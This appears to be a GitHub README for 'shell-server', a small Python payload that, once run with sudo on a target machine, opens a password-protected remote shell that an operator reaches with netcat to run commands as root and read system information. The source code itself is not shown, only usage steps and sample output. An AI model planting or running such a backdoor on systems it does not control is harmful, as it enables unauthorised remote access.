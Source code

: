 <p align="center">
  <a href="https://github.com/thiiagoms/shell-server">
    <img src="assets/payload.png" alt="Logo" width="80" height="80">
  </a>
     <h3 align="center">Simple payload with Python! :bucket:</h3>
</p>

Execute commands, get info about system with this little pythonic example. You **MUST** use this example **ONLY** for educational purposes.

- [Dependencies](#dependencies)
- [Use:](#use)


### Dependencies
* Python 3.5+

### Use:

1 - Clone the repository:
```bash
$ git clone https://github.com/thiiagoms/shell-server,
```

2 - Change host and port on `payload.py` and then execute on target machine:
```python
$ sudo python payload.py
```

3 - You can use netcat for example, to connect on host and port:
```bash
$ netcat <host> <port>

[*] Username: root
[*] Password: 123456

$ <you-are-connect-on-machine>
```

4 - You have two commands on payload: `shell, server-info and exit`

* First: `shell` to execute commands on target machine
```bash
Welcome to socket server panel. 
$ shell
shell >>: ls

assets
LICENSE
payload.py
README.md

shell >>: whoami

root     
```
* Second: `server-info` to get info about machine
```bash
$ server info

Linux codex 5.13.19-2-MANJARO #1 SMP PREEMPT Sun Sep 19 21:31:53 UTC 2021 x86_64 GNU/Linux
```
* Third: `exit` to exit payload and close connection:
```bash
$ exit
```